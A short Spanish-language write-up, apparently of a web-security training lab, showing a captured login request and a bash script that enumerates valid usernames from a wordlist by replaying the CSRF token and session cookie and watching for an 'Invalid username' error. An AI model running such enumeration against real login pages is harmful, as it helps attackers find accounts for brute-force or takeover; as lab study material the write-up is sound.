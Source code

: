 ![Request HTTP](img1.png)

Extraemos los datos necesarios para hacer la consulta:	

```bash
https://aca61f111e1ff681806d1a2f00ed00e9.web-security-academy.net/login
csrf=JqMWKgtoS0cIGjdNp8PL3uY44N4xeePx&username=a&password=a
```

Escribimos un script en bash para solucionar el problema:

```bash
#!/bin/bash

URL='https://aca61f111e1ff681806d1a2f00ed00e9.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`

for USER in `cat user.txt`;do
	DATA='csrf='$CSRF'&username='$USER'&password=a'
	RESULT=`curl $URL -d $DATA -b $COOKIE -s`
	
	if echo $RESULT | grep -o "Invalid username" > $NULL
	then
		echo "Incorrect user: $USER"
	else
		echo "Valid user: $USER"
		break
	fi
done
```
